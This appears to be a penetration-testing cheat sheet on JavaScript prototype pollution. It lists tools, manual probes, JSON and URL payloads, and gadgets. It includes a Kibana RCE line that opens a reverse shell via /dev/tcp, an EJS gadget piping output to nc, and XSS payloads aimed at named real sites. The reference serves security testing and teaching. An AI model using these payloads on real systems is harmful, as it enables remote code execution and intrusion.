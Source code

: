 ```yaml
---
layout: page
title: Prototype pollution
description: 
img:
importance: 3
category: vulns
img: assets/img/hacking/cheetSheet/prototype-pollution.jpg
toc:
    sidebar: left
---
```


> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object. Prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
  - [Examples](#examples)
  - [Manual Testing](#manual-testing)
  - [Prototype Pollution via JSON Input](#prototype-pollution-via-json-input)
  - [Prototype Pollution in URL](#prototype-pollution-in-url)
  - [Prototype Pollution Payloads](#prototype-pollution-payloads)
  - [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
- [Labs](#labs)
- [References](#references)

## Tools

- [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
- [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
- [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
- [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
- [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
- [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner

## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### Examples

- Imagine that an application uses an object to maintain configuration settings, like this:
  ```js
  let config = {
    isAdmin: false,
  };
  ```
- An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
  ```js
  Object.prototype.isAdmin = true;
  ```

### Manual Testing

- ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
- ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
- ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
- Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
- Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
- Change the status code: `{ "__proto__":{"status":510}}`

### Prototype Pollution via JSON Input

You can access the prototype of any object via the magic property `__proto__`.
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

- Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
  ```js
  .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
  .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
  ```
- Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
  ```js
  {
      "__proto__": {
          "client": 1,
          "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
      }
  }
  ```
- Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
- Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- Denial of Service

### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).

## Labs

- [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
- [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)

## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - \_\_proto\_\_ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)
